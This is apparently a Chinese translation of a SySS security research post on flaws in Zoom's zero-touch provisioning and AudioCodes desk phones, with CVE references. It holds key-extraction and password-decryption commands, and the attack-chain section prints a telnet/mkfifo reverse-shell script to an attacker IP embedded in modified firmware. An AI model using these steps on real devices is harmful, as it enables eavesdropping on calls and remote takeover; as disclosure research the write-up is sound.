利用 Zoom 的零接触配置（ Zero Touch Provision）进行远程攻击：针对桌面电话的入侵方法

- - -

翻译原文链接：[https://blog.syss.com/posts/zero-touch-pwn/](https://blog.syss.com/posts/zero-touch-pwn/)

文章翻译总结：文章主要是关于对 AudioCodes 语音电话和 Zoom 的零接触配置功能进行安全分析后发现的多个漏洞。这些漏洞可以单独或组合利用，导致攻击者可以远程控制这些设备。这些漏洞的结合使用可以导致攻击者远程接管任意设备，造成很大的安全风险。

文章相关标签：#AudioCodes、#Zoom、# 远程控制、# 监听通话、# 密码解密、# 配置文件解密、# 固件签名验证

# 利用 Zoom 的零接触配置（ Zero Touch Provision）进行远程攻击：针对桌面电话的入侵方法

在这篇博客文章中，我们详细介绍了在 AudioCodes 桌面电话和 Zoom 的零接触配置服务安全性分析中发现的多个漏洞。我们还讨论并展示了这些漏洞可能导致的攻击途径。

## 一、更新通知

供应商在 2023 年 8 月 17 日告知我们，本博客文章中提到的关键漏洞（除了 SYSS-2022-055 之外）已被修复，相关的攻击手段不再有效。我们将会在近期发布一篇更新的文章。

> [https://www.syss.de/fileadmin/dokumente/Publikationen/Advisories/SYSS-2022-055.txt](https://www.syss.de/fileadmin/dokumente/Publikationen/Advisories/SYSS-2022-055.txt)

## 二、关键信息

通过利用 AudioCodes Ltd. 的桌面电话和 Zoom 的零接触配置功能中的安全漏洞，外部攻击者能够完全远程操控这些设备，可能的攻击行为包括：

-   窃听会议室或电话通话内容
-   利用设备作为跳板，进一步攻击企业内部网络
-   控制这些设备，构建一个僵尸网络

此外，我们成功分析了 AudioCodes 设备的加密算法，并解密了包括密码和配置文件在内的敏感信息。由于认证机制存在缺陷，远程攻击者得以访问这些关键文件和数据。

这项研究成果在 2023 年 BlackHat USA 大会上进行了展示。

> [https://www.blackhat.com/us-23/briefings/schedule/#zero-touch-pwn-abusing-zooms-zero-touch-provisioning-for-remote-attacks-on-desk-phones-31341](https://www.blackhat.com/us-23/briefings/schedule/#zero-touch-pwn-abusing-zooms-zero-touch-provisioning-for-remote-attacks-on-desk-phones-31341)

## 三、介绍

在实际应用中，自动配置程序广泛用于设置新的 VoIP 设备。这些程序确保设备接收到运行所需的所有信息，包括服务器地址、账户资料和固件升级。此外，这些程序还支持在初始配置后对设备进行高效的集中管理，使企业能够轻松地进行设备监控、故障排查和必要时的更新。 在传统的企业内部 VoIP 部署中，通常会在本地网络中部署一个简易的 web 服务器，用于向设备提供配置和固件更新。 根据我们在渗透测试方面的经验，设备配置过程常常带来重大的安全风险。设备在没有任何额外信息或凭据的情况下，需要使用出厂设置查询必要的文件，这就构成了所谓的 “先有鸡还是先有蛋” 的问题，这为保护配置过程带来了挑战。此外，保护这些文件免受未授权访问也是一项难以实现的任务。

然而，在传统安装中，设备和配置服务通常被放置在分离且安全的网络区域，这样做限制了攻击面，从而减少了潜在攻击者的数量。但随着 Zoom 等云通信服务提供商的兴起，这种情况发生了显著的变化。这些提供商已经成为日常工作不可或缺的一部分，并逐渐取代了传统的 VoIP 系统。 尽管如此，在某些情况下，仅依靠软客户端是不够的，我们仍然需要桌面电话或模拟网关这样的硬件设备。如今，这些硬件可以与大多数主流云通信服务提供商兼容集成。 但是，将安全性有待提高的传统设备与最先进的基于云的通信服务结合使用，这样的安全性如何呢？在本文中，我们将以 Zoom 会议平台和 AudioCodes 设备为例，探讨这一问题。

## 四、Zoom 的零接触配置服务

Zoom 支持一种称为 “零接触配置” 的认证硬件自动配置功能。这使得 IT 管理员能够将设备指派给用户，并设置配置，然后设备在出厂设置下自动查询这些配置。这种方法非常便捷，采用了即插即用的原则。

考虑到 ZTP 支持的设备种类范围和服务容量，Zoom 似乎是将传统设备与云服务集成的重要提供商之一，因此它是我们进行安全性分析的理想选择：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229170813-114f9894-d6e2-1.png)

工作方式

根据我们的分析，Zoom 的零接触配置（ZTP）工作流程如下：

1.  管理员可以在 Zoom Phone 的管理界面添加新设备，并为它分配一个配置模板。
2.  相应的厂商提供的重定向服务被激活，并被告知相应的设备已分配给 Zoom。
3.  处于出厂设置的设备向厂商的重定向服务请求设备配置。
4.  重定向服务将请求转至 Zoom 的 ZTP 服务。
5.  桌面电话向 Zoom 的 ZTP 服务请求设备配置。
6.  ZTP 服务用分配的配置模板进行响应。

这个流程可以用下图形象地展示：Zoom 零接触配置（ZTP）的图解

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229170829-1ae58f1c-d6e2-1.png)

## 五、设备认证

正如之前所描述的，分配的电话在其启动过程中的某个时刻从零接触配置（ZTP）服务获取其配置信息。为了分析设备与 ZTP 服务之间的通信，我们使用了传输层安全（TLS）代理来实施了几次中间人攻击。通过这种方法，我们发现 Zoom 实施了基于证书的认证（也称为双向 TLS 认证）：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229170854-29d8b7b0-d6e2-1.png)

此外，根据官方文档，我们已经获得了 ZTP 服务的基础 URL，但正如所料，必须使用客户端证书：

> [https://support.zoom.us/hc/en-us/articles/360033223411-Getting-started-with-provisioning-desk-phones](https://support.zoom.us/hc/en-us/articles/360033223411-Getting-started-with-provisioning-desk-phones)

```plain
$ curl -v https://provpp.zoom.us/api/v2/pbx/provisioning/audiocodes

[...]
HTTP/2 400
server: nginx
date: Thu, 12 Jan 2023 10:04:25 GMT
content-type: text/html
content-length: 230
strict-transport-security: max-age=31536000; includeSubDomains

<html>
<head><title>400 No required SSL certificate was sent</title></head>
<body>
<center><h1>400 Bad Request</h1></center>
<center>No required SSL certificate was sent</center>
<hr><center>nginx</center>
</body>
</html>
```

作为接下来的步骤，我们从支持的设备中提取了一个有效的客户端证书（请参阅设备分析部分）。在相应配置了 TLS 代理后，我们得以成功地捕获并分析网络通信数据。

以下是一个设备配置的示例请求：

> [https://blog.syss.com/posts/zero-touch-pwn/#analysis-of-certified-hardware](https://blog.syss.com/posts/zero-touch-pwn/#analysis-of-certified-hardware)

```plain
GET /api/v2/pbx/provisioning/audiocodes/00908F9D8992.cfg HTTP/2
Host: eu01pbxacp.zoom.us
User-Agent: AUDC/3.4.6.604 AUDC-IPPhone-C450HD_UC_3.4.6.604/1
```

来自 ZTP 的响应包：

```plain
HTTP/2 200 OK
Date: Thu, 12 Jan 2023 11:53:09 GMT
Content-Type: application/octet-stream
Content-Length: 6603
X-Zm-Trackingid: PBX_XXXXXXXXXXXXXXXXXXXXXXXXXXX
X-Zm-Region: XX
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
X-Frame-Options: deny
Content-Disposition: attachment; filename=00908F9D8992.cfg
Accept-Ranges: bytes
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Content-Type-Options: nosniff

system/type=C450HD
voip/dns_cache_srv/0/name=_sips._tcp.XXXXXXXXX.XX.zoom.us
voip/dns_cache_srv/0/port=5091
voip/dns_cache_srv/0/priority=1
[...]
```

除了客户端证书之外，还会验证 User-Agent 请求头的值：

请求示例：

```plain
GET /api/v2/pbx/provisioning/audiocodes/00908F9D8992.cfg HTTP/2Host: eu01pbxacp.zoom.usUser-Agent: SySS
```

响应：

```plain
HTTP/2 404 Not Found
Content-Length: 0
[...]
```

此外，根据不同厂商和设备型号的要求，客户端证书必须拥有与设备 MAC 地址相匹配的通用名称（CN）属性或序列号，才能获取正确的配置文件。

这种基于证书的认证机制，它确保了 MAC 地址与请求的配置文件完全一致，从而使得攻击者很难在没有相应设备证书的情况下获取设备的配置信息。

## 六、设备分配

在 Zoom Phone 的管理界面中，可以通过添加设备的 MAC 地址来完成设备的分配：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229170945-4824c970-d6e2-1.png)

然而，除了客户端验证之外，比如一次性密码或其它证明 MAC 地址确实属于该组织的验证方式。

因此，一个拥有使用 Zoom Phone 所需许可的攻击者可以声称任意 MAC 地址，并分配一个自定义的配置模板。

由于配置模板中包含了设备的设置和指令，攻击者可能潜在地触发从他们控制的服务器下载恶意固件等行为：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229171153-9487d942-d6e2-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229171159-97a35822-d6e2-1.png)

因此，每当分配的设备处于出厂设置状态时，例如当它是一台新电话或者已经被重置，它将从 ZTP 请求攻击者提供的恶意配置文件，并随后下载攻击者提供的固件映像。

攻击者还可以利用 Zoom 的 ZTP 的另一个内置功能来扩大攻击的影响范围，通过导入大量 MAC 地址的列表：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229171219-a4220300-d6e2-1.png)

导入 MAC 地址列表后，这些设备将被视为属于攻击者的 Zoom 账户。无论是新分配还是设备合法所有者的后续分配，都不会影响攻击者之前的分配，且重定向设置不会被覆盖。

在安全分析过程中，我们没有发现对可添加设备数量的限制。

基于 SYSS-2022-056 描述的未经核实的所有权漏洞，我们的目标是发现受支持设备固件签名验证中的漏洞，并利用 Zoom 的 ZTP 服务来诱使任意设备安装攻击者提供的恶意固件。

> [https://www.syss.de/fileadmin/dokumente/Publikationen/Advisories/SYSS-2022-056.txt](https://www.syss.de/fileadmin/dokumente/Publikationen/Advisories/SYSS-2022-056.txt)

## 七、认证硬件的分析

本节将对 AudioCodes C450HDVoIP 桌面电话进行分析，该设备被列为 ZTP 服务支持的产品之一。

> [https://www.audiocodes.com/de/solutions-products/products/ip-phones/c450hd-ip-phone](https://www.audiocodes.com/de/solutions-products/products/ip-phones/c450hd-ip-phone)
> 
> [https://support.zoom.us/hc/en-us/articles/360001299063-Zoom-Phone-Supported-Devices#h\_6415e7c1-60c2-467c-b29e-e6c5e49a4c41](https://support.zoom.us/hc/en-us/articles/360001299063-Zoom-Phone-Supported-Devices#h_6415e7c1-60c2-467c-b29e-e6c5e49a4c41)

### 1.AudioCodes 重定向服务

在深入探讨我们计划的攻击场景之前，我们将进一步分析设备配置过程，特别是关于厂商提供重定向服务的细节。

正如之前所解释的，处于出厂设置的桌面电话最初会从相应的厂商服务器请求配置或配置服务器的 URL。对于 AudioCodes 设备来说，这同样适用于它们联系 AudioCodes 重定向服务器在 `redirect.audiocodes.com`。这个初始配置阶段与 Zoom 的 ZTP 后期阶段的设备配置过程相似。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229171835-83d6966e-d6e3-1.png)

然而，与 Zoom 不同，访问和查询重定向 URL 和配置不需要任何认证。在许多情况下，只能访问第二阶段配置服务器的 URL：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229171817-793634a8-d6e3-1.png)

然而，在我们进行安全分析的过程中，进行了一些抽查，我们发现在 URL 中发现了敏感信息

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229171811-756cd0de-d6e3-1.png)

在重定向过程中，也可能识别出第三方服务器上的敏感数据。

因此，我们强烈建议这些服务的运营者和 AudioCodes 重定向服务器的用户检查这些数据是否可以自由访问。一般来说，我们建议实施认证并避免以明文形式存储敏感信息，如密码。

由于基于 MAC 地址的设备分配机制，攻击者可以扫描整个 AudioCodes 的 MAC 地址范围，这大大增加了这个问题的潜在影响。

这种敏感信息向未经授权的第三方泄露的情况在 SYSS-2022-053 中有详细描述。

> [https://www.syss.de/fileadmin/dokumente/Publikationen/Advisories/SYSS-2022-053.txt](https://www.syss.de/fileadmin/dokumente/Publikationen/Advisories/SYSS-2022-053.txt)

### 2\. 密钥加密

在通过 AudioCodes 重定向服务访问配置文件的过程中，我们还发现了 Base64 编码的字符串，这些字符串似乎是加密后的密码，Base64 编码和加密密钥：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229171910-98ed6fd2-d6e3-1.png)

```plain
$ echo "VvlZOp5/5pM=" | base64 -d | xxd

00000000: 56f9 593a 9e7f e693
```

因此，下一步，我们分析了 AudioCodes 设备的固件，以恢复其使用的加密算法。

AudioCodes 设备的固件可以从供应商的下载门户下载，本身并未加密。另一种访问设备文件系统的方法是使用 SSH 和管理员密码进行 root 级别的访问。

在分析过程中，我们发现许多功能定义在共享对象文件 `/lib/libaq201.so` 中。这个库还从共享对象文件 `/lib/libac_des3.so` 中导入了 `decrypt_string` 函数，这看起来像是加密例程的一个好指标。

使用 Ghidra 等工具对库进行反汇编和反编译，可以逆向工程加密算法并提取硬编码的加密密钥。

在对加密字符串进行一些操作之后，导出的 `decrypt_string` 函数会调用 `des3_crypt` 函数：

> [https://www.audiocodes.com/library/firmware](https://www.audiocodes.com/library/firmware)
> 
> [https://ghidra-sre.org/](https://ghidra-sre.org/)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229172023-c477d638-d6e3-1.png)

在 des3\_crypt 函数内部，调用了从 /lib/libcrypto.so.1.0.0 导入的函数 DES\_set\_key\_unchecked 和 DES\_ede3\_cbc\_encrypt：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229172038-cd6c87f2-d6e3-1.png)

这些 OpenSSL 函数首先将密钥转换成与体系结构相关的密钥调度，然后执行实际的 Triple DES 解密操作。

通过了解这些函数的调用约定，我们可以重新定义传入的参数：

> [https://www.openssl.org/docs/man3.0/man3/DES\_ede3\_cbc\_encrypt.html](https://www.openssl.org/docs/man3.0/man3/DES_ede3_cbc_encrypt.html)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229172055-d73b9b9c-d6e3-1.png)

接下来，可以检查 8 字节的初始化向量（IV）和 24 字节的加密密钥的指针，从而确定二进制文件内的内存位置：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229172103-dc67c4a6-d6e3-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229172110-e021b908-d6e3-1.png)

```plain
Extraction of the Key:
$ offset=$(python3 -c 'print(int("00000fb8", base=16))')
$ dd skip=$offset count=24 if=libac_des3.so of=key.bin bs=1

Extraction of the IV:
$ offset=$(python3 -c 'print(int("00000fb0", base=16))')
$ dd skip=$offset count=8 if=libac_des3.so of=iv.bin bs=1
```

最后，可以使用一个简单的 Python 脚本来解密 AudioCodes 设备中的加密密码：

```plain
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import sys
import base64
from Crypto.Cipher import DES3
from binascii import unhexlify

KEY = unhexlify('604075fb########################################')
IV  = unhexlify('a3a4####35cb####')

def decrypt(ciphertext):
    ciphertext_decoded = base64.b64decode(ciphertext)
    cipher = DES3.new(KEY, DES3.MODE_CBC, iv=IV)
    plaintext = cipher.decrypt(ciphertext_decoded)
    print("plain text password: {}".format(plaintext.decode('utf-8')))


def main():
    decrypt(sys.argv[1])


if __name__ == '__main__':
    main()
$ python3 poc.py VvlZOp5/5pM=

plain text password: system
```

这种硬编码的加密密钥的使用在 SYSS-2022-052（CVE-2023-22957）中有描述。

> [https://www.syss.de/fileadmin/dokumente/Publikationen/Advisories/SYSS-2022-052.txt](https://www.syss.de/fileadmin/dokumente/Publikationen/Advisories/SYSS-2022-052.txt)
> 
> [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-22957](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-22957)

### 3\. 配置文件加密

接下来，我们注意到 AudioCodes 设备的配置文件也可以完全以加密的形式存储：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229172128-eaf7a1ee-d6e3-1.png)

然而，对于配置文件的加密，使用了另一个加密密钥，并且由于我们没有提到的工具 `encryption_tool.exe`，我们不得不更深入地研究设备固件。

在这次分析中，可以观察到共享对象文件 `/lib/libcgi.so` 会检查配置文件是否已加密，并执行以下命令：

```plain
/home/ipphone/bin/decryption_tool -f /tmp/back_file.cfx -o %s > /dev/null
```

因此，我们假设配置文件的解密是由 `/home/ipphone/bin/decryption_tool` 处理的，并决定对这个可执行文件进行更详细的检查。

进行这项检查后，我们发现使用的加密算法是导入的 OpenSSL 函数 EVP\_des\_ede3\_cbc，并且使用 EVP\_BytesToKey 从给定字符串派生出密钥和初始化向量（IV）。

我们在函数的内存位置 `00011620` 处发现了一个有趣的字符串引用：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229172227-0e5d889c-d6e4-1.png)

上述指令导致调用 memcpy 函数，其参数可以抽象描述如下：

```plain
memcpy(栈上的一个位置，一个有趣的字符串，字符串的长度)
memcpy(location_on_the_stack, interessting_string, size_of_the_string)
```

在此函数稍后的部分，栈上的一个变量（其中包含字符串）被复制到寄存器 r3，然后作为第四个参数传递给位于内存位置 `000111a0` 处的函数：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229172242-170acc5c-d6e4-1.png)

在上述函数之后，字符串又被存储在栈上（使用寄存器 `r7`）：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229172307-25d2b2ea-d6e4-1.png)

在函数的后续部分，寄存器 `r7` 的内容被存储在传递给 OpenSSL 函数 `EVP_BytesToKey` 的第四个参数中：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229172313-29c0448a-d6e4-1.png)

根据 OpenSSL 对此函数的文档，可以确认该值代表用于派生密钥的字符串。

因此，我们可以从前面的函数 `0001162`0 中识别出的内存位置提取该密钥：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229172323-2fa5b678-d6e4-1.png)

```plain
$ offset=$(python3 -c 'print(int("00001e8f", base=16))')
$ dd skip=$offset count=64 if=decryption_tool of=secret.bin bs=1
```

最终，可以从提取的秘密中派生出密钥，从而成功解密加密的 AudioCodes 配置文件：

```plain
$ secret=$(cat secret.bin)

$ openssl enc -des-ede3-cbc -P -pass pass:$secret -nosalt
*** WARNING : deprecated key derivation used.
Using -iter or -pbkdf2 would be better.
key=40DA61##########################################
iv =C614############

$ openssl enc -d -des-ede3-cbc -pass pass:$secret -nosalt \ 
        -in encrypted_config.cfx -out plain_config.cfg

$ cat plain_config.cfg
voip/line/0/enabled=1
voip/line/0/id=123
voip/line/0/auth_name=XYZ
voip/line/0/auth_password=XYZ
```

这种第二次使用硬编码的加密密钥在 SYSS-2022-054（CVE-2023-22956）中有描述。

> [https://www.syss.de/fileadmin/dokumente/Publikationen/Advisories/SYSS-2022-054.txt](https://www.syss.de/fileadmin/dokumente/Publikationen/Advisories/SYSS-2022-054.txt)
> 
> [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-22956](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-22956)

### 4\. 固件映像的逆向

为了构建一个成功的利用链，通过 Zoom 的 ZTP 传递恶意固件，并触发任意设备安装它，我们必须先分析 AudioCodes 设备的固件更新机制。

首先，我们从供应商的下载门户下载了一个固件映像文件，并对其进行了修改，尝试通过设备的 Web 界面安装修改后的固件。

可惜，设备拒绝了这次安装尝试。

> [https://www.audiocodes.com/library/firmware](https://www.audiocodes.com/library/firmware)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229172342-3ab1c82c-d6e4-1.png)

由于固件似乎存在验证机制，因此必须分析相应的更新过程：

位于 `/home/ipphone/scripts/run_ramfs_for_upgrade.sh` 的 bash 脚本负责处理固件更新过程，它会检查可执行文件 `/tmp/flasher_ext` 是否存在，并执行它。如果该文件不存在，则位于 `/bin` 的 `flasher` 会被执行：

```plain
[...]
FLASHER=flasher
[...]
do_upgrade() {
    v "Performing system upgrade..."ln -s /home/ipphone/bin/lcdbar /bin/lcdbar
    flasher u /tmp upgrade.img
    if [ $? -eq 0 ]; then
        v "external flasher exist"chmod +x /tmp/flasher_ext
        /tmp/flasher_ext u
        if [ $? -eq 0 ]; then
            v "external flasher can run, so use external flasher to upgrade"FLASHER="/tmp/flasher_ext"fi
    fi$FLASHER r /tmp upgrade.img 1>$CONSOLE 2>&1
    if [ $? -eq 0 ]; then
        v "Upgrade successful"else
        v "Upgrade fail"fi}[...]
```

通过分析 `flasher` 可执行文件，我们发现 `lseek` 函数被广泛使用。这个 C 语言函数用于改变文件偏移，以便在固件映像文件中读取和写入特定部分，这表明映像包含不同的区域。

使用十六进制编辑器查看固件映像，并对二进制文件进行深入分析，我们能够重建固件的结构以及划分文件区域的头部，该头部还包含各个区域的简单校验和。

> [https://man7.org/linux/man-pages/man2/lseek.2.html](https://man7.org/linux/man-pages/man2/lseek.2.html)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229172359-44e0eee0-d6e4-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229172404-47e53376-d6e4-1.png)

该部分的校验和是通过从偏移 0x60 开始的所有字节之和计算得出的。

分析的固件映像包含以下几个部分：

1.  包含元信息的固件头部（版本、型号、日期等）
2.  `bootloader.img`
3.  `rootfs.ext4`
4.  `phone.img`
5.  `section.map`
6.  `flasher`
7.  release
8.  end.section

在重建固件映像的结构和校验和计算之后，我们在映像文件中修改了一些位，重新计算了校验和，并尝试在设备上安装修改后的文件。不出所料，这次固件更新没有失败，我们成功地安装了被修改的映像文件。

为了更方便地展示这个过程，我们从映像文件中提取了 rootfs.ext4 文件系统，并将其挂载到文件系统中，然后创建了一个新文件：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229172412-4cff5076-d6e4-1.png)

在打包固件并重新计算校验和之后，我们也能成功安装这个被修改的固件映像：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229172424-53bde27e-d6e4-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229172433-59204c34-d6e4-1.png)

硬件中缺失的不可变可信根在 SYSS-2022-055（CVE-2023-22955）中有描述。

> [https://www.syss.de/fileadmin/dokumente/Publikationen/Advisories/SYSS-2022-055.txt](https://www.syss.de/fileadmin/dokumente/Publikationen/Advisories/SYSS-2022-055.txt)
> 
> [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-22955](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-22955)

## 八、攻击链

现在让我们进入更令人激动的环节，我们将利用设备未经核实的所有权和硬件中缺少的不可变可信根来构建一个攻击链。

为了简单证明概念，我们在路径 `/home/ipphone/scripts` 中添加了一个脚本，该脚本利用系统内置工具（即在环境中寻找资源）来启动一个 shell 连接到攻击者的服务器：

```plain
#!/bin/sh

/bin/sleep 120
TF=$(/bin/mktemp -u)
/usr/bin/mkfifo $TF
/usr/bin/telnet <ATTACKER-IP> 5000 0<$TF | /bin/sh 1>$TF
```

随后，脚本的路径被添加到 `/home/ipphone/rcS` 文件中，该文件在系统启动时执行。

被修改的固件映像随后被存储在攻击者控制的服务器上，并通过 HTTP 协议提供。为了触发目标设备下载恶意固件映像，攻击者将其设备的 MAC 地址添加到他们的 Zoom 账户，并分配一个包含从攻击者服务器下载新固件的恶意配置模板（请参阅 “设备分配” 部分）。

现在，通过将设备恢复到出厂设置，设备将经历 AudioCodes 和 Zoom 的配置过程，并从攻击者的服务器下载并安装恶意固件映像。

最后，攻击者的服务器上出现了一个具有 root 权限的 shell：

> [https://blog.syss.com/posts/zero-touch-pwn/#device-assignment](https://blog.syss.com/posts/zero-touch-pwn/#device-assignment)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229172450-63a5dd72-d6e4-1.png)

攻击链的流程如下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229172458-682deb32-d6e4-1.png)

为了提供更全面的实证，我们添加了一些额外的修改，例如用于监听通话内容：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229172504-6c0cdf92-d6e4-1.png)

## 九、文章总结

在我们进行的安全分析中，我们识别了 Zoom 和 AudioCodes 的配置概念以及认证硬件中的多个安全漏洞。

这些漏洞一旦结合使用，可能被用来远程控制任意设备。由于这种攻击具有高度的可扩展性，因此它构成了重大的安全风险，监听通话内容如下。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240229172613-9524cb6a-d6e4-1.gif)

因此我们证明了，将像 Zoom 这样的先进云通信解决方案与 VoIP 设备等传统技术相结合，可能成为攻击者的理想目标。

作为未来的研究方向，可以对其他基于云的解决方案和认证硬件进行类似的安全漏洞分析。

## 十、漏洞总结

我们最初于 2022 年 11 月向供应商报告了所有描述的漏洞。不幸的是，在披露时并非所有漏洞都已得到修复。

以下是漏洞及其解决方案状态的详细信息：

| Product | Vulnerability Type | SySS ID | CVE ID |
| --- | --- | --- | --- |
| AudioCodes IP-Phones (UC) | 使用硬编码的加密密钥（CWE-321） | [SYSS-2022-052](https://www.syss.de/fileadmin/dokumente/Publikationen/Advisories/SYSS-2022-052.txt) | [CVE-2023-22957](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-22957) |
| AudioCodes Provisioning Service | 敏感信息暴露给未经授权的当事方（CWE-200） | [SYSS-2022-053](https://www.syss.de/fileadmin/dokumente/Publikationen/Advisories/SYSS-2022-053.txt) | N.A. |
| AudioCodes IP-Phones (UC) | 使用硬编码的加密密钥（CWE-321） | [SYSS-2022-054](https://www.syss.de/fileadmin/dokumente/Publikationen/Advisories/SYSS-2022-054.txt) | [CVE-2023-22956](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-22956) |
| AudioCodes IP-Phones (UC) | 硬件中缺少不可变的可信根（CWE-1326） | [SYSS-2022-055](https://www.syss.de/fileadmin/dokumente/Publikationen/Advisories/SYSS-2022-055.txt) | [CVE-2023-22955](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-22955) |
| Zoom Phone System Management | 未经核实的所有权（CWE-283） | [SYSS-2022-056](https://www.syss.de/fileadmin/dokumente/Publikationen/Advisories/SYSS-2022-056.txt) | N.A. |
